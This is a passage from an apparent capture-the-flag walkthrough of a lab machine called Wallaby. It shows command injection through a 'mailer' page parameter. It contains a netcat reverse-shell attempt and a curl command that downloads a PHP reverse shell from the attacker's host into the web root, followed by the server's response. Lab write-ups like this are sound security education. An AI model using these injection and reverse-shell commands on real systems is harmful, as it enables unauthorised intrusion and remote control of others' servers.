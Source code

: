 You better go through them one by one. One of them is the key. Stop reading if you didn't figure it out yet.

---

## Getting limited shell

Did you figure it out?

`index.php?page=mailer` is the one to check to the comments found in the source.

```html
<h2 style='color:blue;'>Coming Soon guys!</h2>
    <!--a href='/?page=mailer&mail=mail wallaby "message goes here"'><button type='button'>Sendmail</button-->
    <!--Better finish implementing this so abatchy
 can send me all his loser complaints!-->
```

Is the mail functionality implemented? Probably not, but the way the second parameter is sent looks to be passed directly into some interpreter.

  * `/index.php?page=mailer&mail=whoami` returns `www-data`! Let's try to start a listener on our attacking machine and get a reverse shell!

  * `index.php?page=mailer&mail=nc -nv 192.168.1.67 -e /bin/bash` didn't work, Wallaby was again one step ahead of us.


```
"How you gonna use netcat so obviously. Cmon man. This is all in the logs."
```

After running a few commands I noticed that netcat exists under `/bin/netcat` but doesn't have the `-e` option available. That is not an issue thanks to [this](https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem). But I prefer using the php reverse shell script, which can be found [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

Save it as .txt so it doesn't get interpreted and store it on the victim's
machine.

Requested url:
```
http://192.168.1.68:60080/index.php?page=mailer&mail=curl http://192.168.1.67/4444.txt > shell.php; chmod 777 shell.php; ls -al
```

Response:
```
total 104
drwxr-xr-x 3 www-data www-data  4096 Jan  2 22:16 .
drwxr-xr-x 3 root     root      4096 Dec 16 21:31 ..
-rw-r--r-- 1 root     root     15953 Aug 11  2015 eye.jpg
-rw-r--r-- 1 root     root      3639 Dec 27 19:19 index.php
drwxr-xr-x 2 root     root      4096 Dec 27 12:25 s13!34g$3FVA5e@ed
-rw-r--r-- 1 root     root     57626 Dec 27 12:24 sec.png
-rwxrwxrwx 1 www-data www-data  5494 Jan  2 22:16 shell.php
-rw-r--r-- 1 www-data www-data     8 Jan  2 21:07 uname.txt
```
